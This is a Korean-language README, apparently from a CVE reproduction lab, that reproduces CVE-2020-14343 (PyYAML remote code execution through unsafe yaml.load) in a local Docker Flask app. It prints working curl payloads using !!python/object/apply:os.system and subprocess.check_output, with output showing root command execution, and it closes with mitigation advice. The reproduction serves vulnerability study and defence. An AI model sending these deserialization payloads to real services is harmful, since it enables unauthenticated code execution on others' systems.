



# CVE-2020-14343

## 요약

- **PyYAML < 5.4** 버전에서 `yaml.load()` 가 임의의 Python 객체 역직렬화를 허용해 **원격 코드 실행(RCE)** 으로 이어진다.
- PyYAML 은 YAML 문자열을 파싱할 때 `!!python/object/apply:os.system [...]` 같은 태그를 해석하면서 임의의 Python 모듈 / 함수를 호출할 수 있다. `Loader=yaml.Loader` (또는 FullLoader) 를 명시적으로 지정하면 이 동작이 그대로 노출된다.

영향 버전:

- PyYAML 1.5 ~ 5.3 (5.4 미만 전체)
- 패치 버전: PyYAML **5.4 이상**

## 환경 구성 및 실행

외부 이미지를 사용하지 않고 `Dockerfile` 로부터 빌드한다.

```bash
cd Python/CVE-2020-14343
docker compose up -d --build
```

빌드가 끝나면 컨테이너는 5050 포트(호스트) → 5000 포트(컨테이너) 로 매핑되어 실행된다.

브라우저에서 `http://localhost:5050/` 에 접속하면 YAML 입력 폼이 표시된다.

## 취약 조건

다음 조건이 모두 만족되면 본 PoC 가 성공적으로 RCE 를 재현할 수 있다.

1. PyYAML 5.4 미만 (예: 5.3.1) 사용
2. 사용자 입력을 `yaml.load(data, Loader=yaml.Loader)` 또는 `yaml.load(data, Loader=yaml.FullLoader)` 로 파싱
3. 네트워크로 도달 가능 (인증 불필요)
4. 컨테이너 / 호스트가 root 로 실행 중

해당 환경에서는 Flask 가 컨테이너 안에서 root 로 실행되므로 `id` 출력에서 `uid=0(root)` 가 확인된다.

## 재현 절차

### 방법 1: 자동 PoC 스크립트 (권장)

`poc.sh` 는 페이로드 전송 + RCE 검증을 한 번에 수행한다.

```bash
cd Python/CVE-2020-14343
./poc.sh
```

스크립트는 다음 두 단계로 동작한다.

1. `${script:javascript:...}` 대신 PyYAML 고유 페이로드인 `!!python/object/apply:os.system [...]` 를 `/parse` 엔드포인트로 POST
2. 컨테이너 내부에서 `docker exec` 로 `/tmp/hacked` 파일과 `/tmp/whoami.txt` 내용 확인

### 방법 2: 수동 재현

정상 입력 (딕셔너리 파싱):

```bash
curl -sS -X POST http://localhost:5050/parse \
    --data-urlencode 'yaml_data=name: Alice
age: 30'
```

```
<h2>Parsed Result</h2>
<pre>type : dict
value: {'name': 'Alice', 'age': 30}</pre>
```

악성 입력 (RCE) — `os.system` 으로 `/tmp/hacked` 파일과 `id` 출력 저장:

```bash
curl -sS -X POST http://localhost:5050/parse \
    --data-urlencode 'yaml_data=!!python/object/apply:os.system ["touch /tmp/hacked && id > /tmp/whoami.txt"]'
```

```
<h2>Parsed Result</h2>
<pre>type : int
value: 0</pre>
```

`value: 0` 은 `os.system` 의 리턴 코드(성공)이며, 이미 컨테이너 안에서는 `/tmp/hacked` 가 생성되고 `id` 출력이 `/tmp/whoami.txt` 로 저장된 상태다.

결과 검증:

```bash
docker exec cve-2020-14343 ls -la /tmp/hacked
# -rw-r--r-- 1 root root 0 ... /tmp/hacked

docker exec cve-2020-14343 cat /tmp/whoami.txt
# uid=0(root) gid=0(root) groups=0(root)
```

또는 `subprocess.check_output` 으로 명령 실행 결과를 응답 본문에 직접 노출시킬 수도 있다.

```bash
curl -sS -X POST http://localhost:5050/parse \
    --data-urlencode 'yaml_data=!!python/object/apply:subprocess.check_output [["id"]]'
```

```
<pre>type : bytes
value: b'uid=0(root) gid=0(root) groups=0(root)\n'</pre>
```

### 실행 결과

- 정상 YAML (딕셔너리) → 안전하게 dict 객체로 파싱된다.
- `!!python/object/apply:os.system [...]` 페이로드 → 컨테이너 내부에서 임의 명령 실행. 본 보고서에서는 `/tmp/hacked` 파일이 생성되고 `id` 명령 결과가 `/tmp/whoami.txt` 로 저장됨을 확인했다.
- `!!python/object/apply:subprocess.check_output [["id"]]` 페이로드 → 명령 실행 결과가 응답 본문으로 그대로 노출된다.



정상적으로 기동된 Flask YAML 파서 페이지 (`http://localhost:5050/`).



`./poc.sh` 실행 결과. `!!python/object/apply:os.system ["touch /tmp/hacked && id > /tmp/whoami.txt"]` 페이로드 전송 후 서버가 `value: 0` 을 응답한다.



`docker exec cve-2020-14343 ls -la /tmp/hacked` 와 `cat /tmp/whoami.txt` 결과. `/tmp/hacked` 파일이 root 권한으로 생성되었고 `uid=0(root)` 가 기록되어 있다.

## 취약점 대응 방안

1. **PyYAML 을 5.4 이상으로 업그레이드** 한다. 5.4 부터 `yaml.load()` 가 기본적으로 안전한 `FullLoader` 사용을 경고하고, 알 수 없는 태그에 대해 더 엄격해진다.
2. 신뢰할 수 없는 입력에는 반드시 **`yaml.safe_load()`** 를 사용한다. 어떤 버전이든 임의 Python 객체 태그를 거부한다.
3. 사용자 입력, 외부 API 응답, 업로드 파일 등 신뢰할 수 없는 출처의 YAML 은 절대 `yaml.load()` 로 직접 파싱하지 않는다.
4. 같은 이유로 Python 의 `pickle`, `marshal`, `shelve`, `xmlrpc` 등 임의 객체 역직렬화를 허용하는 포맷 사용도 함께 점검한다.
5. 컨테이너를 root 가 아닌 계정으로 실행하면 RCE 가 성공하더라도 호스트 권한 상승 위험을 줄일 수 있다.

## 정리

Docker 환경에서 CVE-2020-14343 취약점을 재현하였다. 공격자는 인증 없이 네트워크에서 한 번의 HTTP 요청만으로 컨테이너 내부 임의 명령을 실행할 수 있고, 컨테이너가 root 로 떠 있다면 호스트 측 영향까지 이어질 수 있다. 가장 깔끔한 대응은 PyYAML 5.4 이상으로 업데이트하고 신뢰할 수 없는 입력에는 `yaml.safe_load()` 만 사용하는 것이다.
